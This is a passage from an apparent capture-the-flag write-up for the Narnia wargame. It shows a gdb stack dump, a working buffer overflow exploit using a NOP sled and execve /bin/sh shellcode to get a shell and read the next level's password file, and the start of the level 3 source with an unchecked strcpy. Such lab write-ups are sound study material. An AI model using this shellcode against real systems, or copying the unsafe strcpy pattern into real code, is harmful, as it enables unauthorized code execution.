 ```sourceCode
0xffffd860: 0x61616161  0x61616161  0x61616161  0x61616161
0xffffd870: 0x61616161  0x61616161  0x61616161  0x61616161
0xffffd880: 0x61616161  0x61616161  0x61616161  0x61616161
0xffffd890: 0x61616161  0x61616161  0x61616161  0x61616161
0xffffd8a0: 0x61616161  0x61616161  0x61616161  0x61616161
0xffffd8b0: 0x61616161  0x62626262  0x47445800  0x5345535f
0xffffd8c0: 0x4e4f4953  0x3d44495f  0x30333035  0x45485300
0xffffd8d0: 0x2f3d4c4c  0x2f6e6962  0x68736162  0x52455400
0xffffd8e0: 0x78723d4d  0x322d7476  0x6f633635  0x00726f6c
0xffffd8f0: 0x5f485353  0x45494c43  0x323d544e  0x322e3231
0xffffd900: 0x37352e33  0x3136312e  0x35333320  0x34203932
0xffffd910: 0x53003334  0x545f4853  0x2f3d5954  0x2f766564
0xffffd920: 0x2f737470  0x4c003033  0x4c415f43  0x00433d4c
0xffffd930: 0x52455355  0x72616e3d  0x3261696e  0x5f534c00
0xffffd940: 0x4f4c4f43  0x723d5352  0x3a303d73  0x303d6964
0xffffd950: 0x34333b31  0x3d6e6c3a  0x333b3130  0x686d3a36
0xffffd960: 0x3a30303d  0x343d6970  0x33333b30  0x3d6f733a
```

We see our payload start at `0xffffd828` with the last 4 bytes at `0xffffd8b4`

The buffer gives us 128 bytes to play with. Our shellcode is 25 bytes, so we'll pad the start with a [nop sled](https://en.wikipedia.org/wiki/NOP_slide) to adjust for the memory offset introduced by `gdb`. Then set the `EIP` to somewhere in the middle of the sled

```sourceCode
narnia2@melinda:/narnia$ ./narnia2 `python -c "print '\x90'*115 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80' + '\x60\xd8\xff\xff'"`
$ whoami
narnia3
$ cat /etc/narnia_pass/narnia3
[password]
```

## Level 03

```c
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char **argv){

        int  ifd,  ofd;
        char ofile[16] = "/dev/null";
        char ifile[32];
        char buf[32];

        if(argc != 2){
                printf("usage, %s file, will send contents of file 2 /dev/null\n",argv[0]);
                exit(-1);
        }

        /* open files */
        strcpy(ifile, argv[1]);
        if((ofd = open(ofile,O_RDWR)) < 0 ){
                printf("error opening %s\n", ofile);
                exit(-1);
        }
        if((ifd = open(ifile, O_RDONLY)) < 0 ){
                printf("error opening %s\n", ifile);
```